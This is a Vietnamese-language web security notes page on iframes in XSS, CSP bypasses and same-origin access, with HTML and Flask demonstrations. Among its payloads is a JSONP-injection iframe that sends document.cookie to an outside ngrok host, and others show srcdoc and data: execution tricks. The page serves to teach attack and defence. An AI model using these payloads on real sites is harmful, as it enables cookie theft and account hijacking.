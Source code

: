 # **Iframes in XSS, CSP and SOP**

## **Iframes in XSS**

- Có 3 cách để chỉ ra nội dung của trang có khung:
    - Thông qua `src` chỉ ra một URL (URL có thể có nguồn gốc chéo hoặc cùng nguồn gốc)
    - Thông qua `src` chỉ ra nội dung sử dụng giao thức data:
    - Qua `srcdoc` chỉ ra nội dung


> **Accesing Parent & Child vars (Truy cập vars Parent & Child)**

```html
<html>
  <script>
  var secret = "31337s3cr37t";
  </script>

  <iframe id="if1" src="http://127.0.1.1:8000/child.html"></iframe>
  <iframe id="if2" src="child.html"></iframe>
  <iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
  <iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>

  <script>
  function access_children_vars(){
    alert(if1.secret);
    alert(if2.secret);
    alert(if3.secret);
    alert(if4.secret);
  }
  setTimeout(access_children_vars, 3000);
  </script>
</html>
```

## **Iframes with CSP**

- Giá trị self của script-src sẽ không cho phép thực thi mã JS bằng cách sử dụng giao thức data: hoặc thuộc tính srcdoc.
Tuy nhiên, ngay cả giá trị không có của CSP cũng sẽ cho phép thực thi các iframe đặt URL (hoàn chỉnh hoặc chỉ đường dẫn) trong thuộc tính src.
Do đó, có thể bỏ qua CSP của một trang bằng:

```html
<html>
<head>
 <meta http-equiv="Content-Security-Policy" content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='">
</head>
  <script>
  var secret = "31337s3cr37t";
  </script>
  <iframe id="if1" src="child.html"></iframe>
  <iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
  <iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
  <iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>

//Lưu ý rằng CSP trước đó chỉ cho phép thực thi tập lệnh nội tuyến.
Tuy nhiên, chỉ các tập lệnh if1 và if2 mới được thực thi nhưng chỉ if1 mới có thể truy cập vào bí mật gốc.
```

- Do đó, có thể bỏ qua CSP nếu bạn có thể tải tệp JS lên máy chủ và tải tệp đó qua iframe ngay cả với script-src 'none'. Điều này có thể cũng có thể được thực hiện bằng cách lạm dụng điểm cuối JSONP trên cùng một trang.
Bạn có thể kiểm tra điều này với tình huống sau đây là cookie bị đánh cắp ngay cả khi có script-src 'none'. Chỉ cần chạy ứng dụng và truy cập nó bằng trình duyệt của bạn

```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
    resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
    resp.headers['Content-Security-Policy'] = "script-src 'self'"
    resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
    return resp

@app.route("/cookie_s.html")
def cookie_s():
    return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
    app.run()
```

```html
<!-- This one requires the data: scheme to be allowed -->
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```